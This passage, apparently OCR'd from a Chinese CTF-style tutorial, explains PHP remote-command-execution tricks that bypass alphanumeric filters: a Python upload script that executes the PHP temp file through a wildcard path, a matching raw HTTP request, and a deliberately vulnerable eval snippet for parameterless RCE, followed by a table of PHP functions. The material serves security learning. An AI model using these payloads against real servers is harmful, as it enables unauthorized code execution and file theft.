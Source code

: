 ##### 临时文件执行

此方法的适用环境稍有不同，以上手法皆为eval类的无字母数字命令执行，而此方法适用于system类命令执行

```
import requests

while True:
    url = "http://url/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('1.php', b'cat flag.php')})
    if r.text.find("flag") >0:
        print(r.text)
        break
```

我们通过发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母。由于字母数字被过滤，所以所有的字母数字都用?通配符代替

**关于正则部分**

```
. /???/????????[@-[]
```

根据观察，文件的最后一位必定为大写字母，所以可以通过正则强制匹配大写字符增加成功几率，详见开头ascii码表

**关于.**

```
. filename
```

用当前的shell执行一个文件中的命令。当前运行的shell是bash，则. file的意思就是用bash执行filename文件中的命令。所以我们就可以用.来执行我们上传的恶意文件

参考请求包

```
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 192.168.43.210:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*
```

#### 有或无参数rce

所谓无参数rce就是利用各种已定义函数的复杂搭配，在eval命令执行的条件下成功构造我们所需的恶意代码的操作。例如下方简介表格中的最后一条代码串。

示例代码

```
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
```

##### 常见函数及简介

|   |   |
|---|---|
|函数|效果|
|include()|包含文件内容|
|require()|包含文件内容|
|include_once()|包含文件内容|
|require_once()|包含文件内容|
|foreach($a as $x => $y)|$a为数组,将数组名和值循环赋值给$x和$y|
|exit($a)|输出$a并退出当前脚本|
|show_source()|显示文件内容|